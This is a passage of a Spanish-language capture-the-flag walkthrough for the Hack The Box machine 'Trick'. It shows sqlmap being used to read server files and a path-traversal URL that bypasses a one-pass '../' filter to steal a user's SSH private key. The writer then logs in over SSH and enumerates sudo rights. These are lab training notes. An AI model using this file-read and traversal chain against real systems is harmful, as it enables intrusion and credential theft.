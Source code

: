 ```bash
listen 80;
listen [::]:80;

server_name preprod-payroll.trick.htb;

root /var/www/payroll;
index index.php;

location / {
try_files $uri $uri/ =404;
}

location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/php7.3-fpm.sock;
}
}
```

vemos que el servidor de <i>preprod-marketing.trick.htb</i> esta bajo el directorio <i>/var/www/market/index.php</i>, hacemos el ultimo escan.

```bash
root@loe# sqlmap -r trick_burp_nginx_FILE.req --batch --dbms mysql --threads 10 --file-read=/var/www/market/index.php
...
root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
include("/var/www/market/home.html");
}
else{
include("/var/www/market/".str_replace("../","",$file));
}
```

este script es el que buscabamos la variable <i>page</i> que es sensible a <i>Path Traversal Attack</i>, vemos que en la penultima linea
reemplaza '../' con espacio vacio asi que simplemente pondremos <i>http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//home/michael/.ssh/id_rsa</i>,
lo descargamos e ingresamos por ssh.

```bash
ssh -i id_rsa michael@10.10.11.166
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ whoami
michael
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
(root) NOPASSWD: /etc/init.d/fail2ban restart
michael@trick:~$
```